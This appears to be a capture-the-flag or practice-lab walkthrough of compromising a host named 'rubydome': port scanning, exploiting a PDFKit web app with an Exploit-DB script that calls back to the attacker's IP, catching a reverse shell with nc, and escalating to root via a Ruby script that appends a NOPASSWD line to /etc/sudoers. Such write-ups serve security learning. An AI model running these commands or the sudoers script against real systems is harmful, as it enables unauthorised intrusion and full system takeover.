 `Running all scans on 192.168.217.22`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT     STATE SERVICE`
`22/tcp   open  ssh`
`3000/tcp open  ppp`

If we check port 3000
![[Pasted image 20240222184419.png]]

Just try to convert the localhost http://127.0.0.1

We get an error but it tells us the app name - PDFKit.
![[Pasted image 20240222184518.png]]

Search Google
![[Pasted image 20240222184547.png]]

https://www.exploit-db.com/exploits/51293

Download the script. It needs URL and parameter so let's check burp when we click the Convert button.

![[Pasted image 20240222184630.png]]

Retry the exploit
`└─$ python 51293.py -s 192.168.45.222 80 -w http://192.168.217.22:3000/pdf -p url`

Catch and upgrade
`└─$ nc -nlvp 80`  
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:80`
`Ncat: Listening on 0.0.0.0:80`
`Ncat: Connection from 192.168.217.22:46678.`
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Sudo -l tells us we can run a ruby script in the user's home directory
`andrew@rubydome:~/app$ sudo -l`
`sudo -l`
`Matching Defaults entries for andrew on rubydome:`
    `env_reset, mail_badpass,`
    `secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,`
    `use_pty`

`User andrew may run the following commands on rubydome:`
    `(ALL) NOPASSWD: /usr/bin/ruby /home/andrew/app/app.rb`

Make a ruby script that adds andrew ALL=(ALL) NOPASSWD: ALL to the sudoers file
```
# Ruby script to append a line to the sudoers file

# Define the line to be added
new_line = "andrew ALL=(ALL) NOPASSWD: ALL"

# Specify the path to the sudoers file
sudoers_file = "/etc/sudoers"

# Check if the current user is root before proceeding
if Process.uid != 0
  puts "You need root privileges to modify the sudoers file."
  exit 1
end

# Check if the sudoers file exists
unless File.exist?(sudoers_file)
  puts "Sudoers file not found: #{sudoers_file}"
  exit 1
end

# Check if the line is already present in the sudoers file
if File.readlines(sudoers_file).grep(/#{Regexp.escape(new_line)}/).any?
  puts "Line already exists in sudoers file."
  exit 0
end

# Append the line to the sudoers file
begin
  File.open(sudoers_file, 'a') { |file| file.puts(new_line) }
  puts "Line added to sudoers file."
rescue => e
  puts "Error occurred while modifying sudoers file: #{e.message}"
end
```

Upload and run the file
`andrew@rubydome:~/app$ sudo /usr/bin/ruby /home/andrew/app/app.rb`
`sudo /usr/bin/ruby /home/andrew/app/app.rb`
`Line added to sudoers file.`
`andrew@rubydome:~/app$ sudo -l`
`sudo -l`
`Matching Defaults entries for andrew on rubydome:`
    `env_reset, mail_badpass,`
    `secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,`
    `use_pty`

`User andrew may run the following commands on rubydome:`
    `(ALL) NOPASSWD: /usr/bin/ruby /home/andrew/app/app.rb`
    `(ALL) NOPASSWD: ALL`

Switch to root and grab the flags

`andrew@rubydome:~/app$ sudo su -`
`sudo su -`
`root@rubydome:~# cd /root`
`cd /root`
`root@rubydome:~# cat proof.txt`
`cat proof.txt`
`65d9af44ba5205aedbdce02854101e75`
`root@rubydome:~# find / -name local.txt 2>/dev/null`
`find / -name local.txt 2>/dev/null`
`/home/andrew/local.txt`
`root@rubydome:~# cat /home/andrew/local.txt`
`cat /home/andrew/local.txt`
`876135f525423415e4d88ad433e54840`

